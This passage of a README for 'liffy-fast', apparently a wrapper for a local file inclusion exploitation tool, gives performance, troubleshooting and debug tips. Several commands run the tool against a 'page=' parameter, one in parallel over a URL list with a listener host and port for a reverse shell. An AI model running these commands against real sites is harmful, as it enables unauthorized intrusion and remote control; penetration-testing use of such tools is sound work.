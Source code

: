 ```json
```

## Performance Tips

1. **Use parallel processing** for large URL lists:
   ```bash
   cat urls.txt | liffy-fast data --batch --parallel --threads 8
   ```

2. **Use GNU parallel** for advanced parallel processing:
   ```bash
   cat urls.txt | parallel -j 8 'liffy-fast data --url {} --lhost 192.168.1.100 --lport 4444'
   ```

3. **Adjust timeout** based on target response time:
   ```bash
   liffy-fast data --url "http://target/file.php?page=" --timeout 60
   ```

4. **Use auto-detection** to avoid manual configuration:
   ```bash
   liffy-fast data --url "http://target/file.php?page=" --auto-ip --auto-port
   ```

## Troubleshooting

### Common Issues

1. **Permission denied**: Make sure the script is executable:
   ```bash
   chmod +x liffy-fast
   ```

2. **Python not found**: Ensure Python 3 is installed and in PATH:
   ```bash
   which python3
   ```

3. **Missing dependencies**: Install required packages:
   ```bash
   pip install -r requirements.txt
   ```

4. **Port already in use**: Use auto-port detection:
   ```bash
   liffy-fast data --url "http://target/file.php?page=" --auto-port
   ```

### Debug Mode

Use verbose output for debugging:
```bash
liffy-fast data --url "http://target/file.php?page=" --verbose
```

## Integration with Other Tools
